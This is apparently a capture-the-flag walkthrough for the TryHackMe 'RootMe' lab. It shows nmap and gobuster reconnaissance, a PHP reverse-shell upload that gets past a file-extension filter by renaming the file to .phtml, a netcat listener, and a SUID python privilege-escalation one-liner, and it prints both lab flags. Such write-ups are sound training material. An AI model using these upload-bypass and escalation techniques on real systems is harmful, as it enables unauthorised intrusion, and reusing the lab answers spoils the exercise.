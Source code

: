# RootMe

# Task 2. Reconnaisance, general information about the target. 
    Linked IP of attach machine to 'rootme.thm' using (sudo nano /etc/hosts)
    - How many ports are open. (2)
        nmap rootme.thm -T5 -v 
            - 22/tcp open ssh
            - 80/tcp open http
    - What version of Apache is running. (2.4.29)
        nmap rootme.thm -sV -T5
            - 80/tcp open http  Apache httpd 2.4.29 ((Ubuntu))
    - What service is running on port 22. (ssh)
        nmap rootme.thm -T5 -v
            - 22/tcp open ssh
    - Find directories on the web server using the GoBuster tool. 
        gobuster -e -u rootme.thm -w common.txt 
            - cd into location of common.txt to simplify 
            - Output listed directories on the webserver, including /panel
    - What is the hidden directory. (/panel/)   

# Task 3. Getting a shell, upload file and get a reverse shell 
    -Once on '(rootme.thm)./panel' I coudl upload a file to the server
    - Used the php_reverse_shell.php from https://github.com/pentestmonkey/php-reverse-shell 
        - changed listening ip in file to my ip 
        - uploaded to server and got an error stating php files were not allowed
        - changed name of file from .php to .phtml, idea came from -> [title](https://book.hacktricks.xyz/pentesting-web/file-upload)
        - This worked and I confirmed by checking 'rootme.thm/uploads' which was another directory I found using GoBuster
        - Next, set up listener to receive a connection with the shell 
            nc -nlvp 1234 
        - Once in shell, ran 'find / -type f -name user.txt' to find file
        - cat /var/www/user.txt gave me the flag 
            - THM{y0u_g0t_a_sh3ll}
# Task 4. Privilege escalation, escalate privileges to root
    - Search for files with SUID permission, which file is weird? 
        find / -type f -user root -perm -u=s
            - this showed me files with SUID permission 
            - /usr/bin/python, was the weird file 
    - Find a form to escalate your privileges 
        python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
            - got this from [title](https://gtfobins.github.io/gtfobins/python/)
            - this escalated my priveleges to root
    - root.txt
        find / -type f -name root.txt 2> /dev/null
        cat /root/root.txt
            - This gave final flag
                - THM{pr1v1l3g3_3sc4l4t10n}



